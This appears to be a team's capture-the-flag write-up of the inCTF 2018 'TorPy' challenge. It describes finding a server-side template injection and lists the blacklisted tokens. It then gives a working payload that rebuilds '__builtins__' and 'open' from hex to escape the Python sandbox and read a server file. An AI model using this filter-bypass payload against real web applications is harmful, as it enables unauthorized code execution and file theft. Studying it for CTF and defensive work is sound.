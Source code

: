 # TorPy

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/13.png)

Only 17/306=5% of the teams solved this one. We were the second team to solve this one.

## Reconnaissance

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/14.png)

Okay we see a interesting name in a comment.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/15.png)

Okay we can inject stuff. This is probably a template injection.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/17.png)

It calculates 1*2=2. So this is how we run code on the server.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/18.png)

Not allowed to have multiple {{}}, only one.

## Blacklisted
```python
__class__
subprocesses
os
import
builtins
eval
file
getattr
[]
for
if
open
_tt_append
```
## Whitelisted, probably useful
```python
locals
;
globals
while
dir
==
bool
__getitem__
base
```

## Python Sandbox Escape

Our goal is to run the below code. But we cant use [] or builtins:
```python
globals()["__builtins__"].open("/flag").read()
```

The following python methods were the key to solving this challenge. The difference between this and the file upload challenge is that in this one, we can't use [].

* `__getitem__`
* `bytes.fromhex`
* `globals()`

As we could convert stuff from hex to ascii we can type anything we want basically.

```
5f5f6275696c74696e735f5f => __builtins__
6f70656e => open
```

And now we just create our payload:
```python
?name={{globals().__getitem__(bytes.fromhex(%275f5f6275696c74696e735f5f%27).decode(%27utf-8%27)).__getitem__(bytes.fromhex(%276f70656e%27).decode(%27utf-8%27))(%22/flag%22,%20%22r%22).read()}}
```

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/16.png)
